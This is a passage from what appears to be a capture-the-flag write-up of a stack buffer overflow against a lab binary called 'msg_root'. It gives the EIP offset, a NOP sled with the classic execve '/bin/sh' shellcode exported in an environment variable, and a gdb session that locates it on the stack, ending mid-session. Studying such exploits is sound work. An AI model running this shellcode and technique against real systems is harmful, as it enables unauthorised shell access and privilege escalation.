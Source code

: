 Bingo, it crashes.
Let's see the offset:

{% highlight bash %}
» python pattern.py offset 0x35614134
hex pattern decoded as: 4Aa5
14
{% endhighlight %}

So, we have an offset of 14 bytes and we can then overwrite the content of the `EIP` register.
Now we need a shellcode. This time I decided to use one of my favorite overflow techniques.
Since we have access to the executable's environment, we can place the shellcode in a environment variable and then overwrite the buffer in order to run it.
[Smashing The Stack For Fun and Profit](http://insecure.org/stf/smashstack.html) teaches us, indeed, that environment variables live on the bottom of the stack and have an almost always fixed offset from the beginning.

Let's craft the payload.
I borrowed the shellcode from the one in Smashing the Stack and added 32 `NOP`s as a prefix.
Then, I put everything in the PAYLOAD variable.

{% highlight bash %}
$ export PAYLOAD=$(python -c 'print(b"\x90" * 32 + b"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")')
export PAYLOAD=$(python -c 'print(b"\x90" * 32 + b"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")')
$ echo -n $PAYLOAD | wc
echo -n �$PAYLOAD | wc
      0       3      78
{% endhighlight %}

Let's find where this variable lives on the stack.

{% highlight bash %}
$ gdb msg_root
gdb msg_root
GNU gdb (GDB) 7.4.1-debian
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /home/reynard/msg_root...done.
(gdb) b main
b main
Breakpoint 1 at 0x8048741: file msg_root.c, line 31.
(gdb) show env
show env
SHLVL=2
HOME=/home/anansi
OLDPWD=/
PAYLOAD=���������������������������������^�1��F�F
                                                 �
                                                  ���V
                                                       ̀1ۉ�@̀�����/bin/sh
LOGNAME=anansi
_=PAYLOAD=���������������������������������^�1��F�F
                                                   �
                                                    ���V
                                                         ̀1ۉ�@̀�����/bin/sh
PATH=/bin:.:/usr/bin:/sbin